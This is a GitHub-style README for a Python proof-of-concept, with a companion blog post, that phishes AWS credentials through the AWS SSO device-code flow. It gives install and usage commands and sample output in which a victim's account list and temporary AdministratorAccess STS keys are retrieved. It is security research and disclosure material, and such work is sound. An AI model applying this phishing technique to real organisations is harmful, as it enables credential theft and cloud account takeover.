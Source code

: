 # AWS SSO Device code phishing

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it display the list of AWS accounts and roles they have access to, and allow retrieving STS credentials inside them.

![](./screenshot.png)

Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose. But it provides an interactive PoC to try it, and doesn't mess with your current AWS CLI configuration! :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```